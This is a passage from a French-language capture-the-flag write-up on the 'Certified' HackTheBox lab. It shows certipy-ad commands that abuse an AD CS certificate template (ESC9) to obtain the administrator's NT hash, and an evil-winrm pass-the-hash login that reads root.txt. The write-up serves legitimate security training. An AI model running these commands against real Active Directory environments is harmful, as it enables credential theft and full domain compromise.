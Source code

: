 [*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'


$ certipy-ad auth -pfx 'administrator.pfx' -domain "certified.htb"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': a<...>e:0<...>4
{{< /highlight >}}

Avec ce hash, nous pouvons récupérer le flag root via evil-winrm.
{{< highlight go "hl_lines=1" >}}
$ evil-winrm -i 10.10.11.41 -u Administrator -H 0<...>4 
<...>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 root.txt
{{< /highlight >}}

## Ressources
> [thehacker.recipes - certificate templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) 
